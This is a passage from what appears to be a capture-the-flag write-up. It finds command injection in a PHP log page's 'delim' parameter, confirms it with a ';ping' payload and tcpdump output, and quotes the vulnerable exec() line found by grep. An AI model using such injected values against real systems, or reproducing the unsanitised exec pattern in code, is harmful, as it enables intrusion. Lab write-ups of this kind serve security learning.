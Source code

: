 The other options submit `space` and `tab`. What happens when I submit something not in the list? I’ll send this to Burp Repeater and change it to 0xdf. The response is the same as `comma`:

![image-20210716165042097](https://0xdfimages.gitlab.io/img/image-20210716165042097.png)

I don’t recognize that log format, but the fact that the page is returning it with different delimiters means that likely some text pattern matching and rearranging is going on. While this can be done naturally in PHP, it’s not that easy, compared to Bash. It is possible that the programmer is reading the file and making the manipulations in PHP, but it’s also possible the author is using `system` or `shell_exec` to call something outside PHP.

I’ll try using a `;` to add a command to the parameter:

```

delim=comma;ping -c 1 10.10.14.6 #

```

I’ll open `tcpdump` and then send this with Burp, and ICMP comes back:

```

oxdf@parrot$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:02:14.962560 IP 10.10.11.104 > 10.10.14.6: ICMP echo request, id 2377, seq 1, length 64
17:02:14.962593 IP 10.10.14.6 > 10.10.11.104: ICMP echo reply, id 2377, seq 1, length 64

```

That’s command injection.

#### With Source

With the source code, I’ll start with a `grep` that will identify many of the [dangerous PHP functions](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720):

```

oxdf@parrot$ grep -R -e system -e exec -e passthru -e '`' -e popen -e proc_open *
download.php:        flush(); // Flush system headers
logs.php:$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
logs.php:    flush(); // Flush system headers

```

The first and last ones are comments, but the middle on in `logs.php` is interesting. That file:

```

<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

```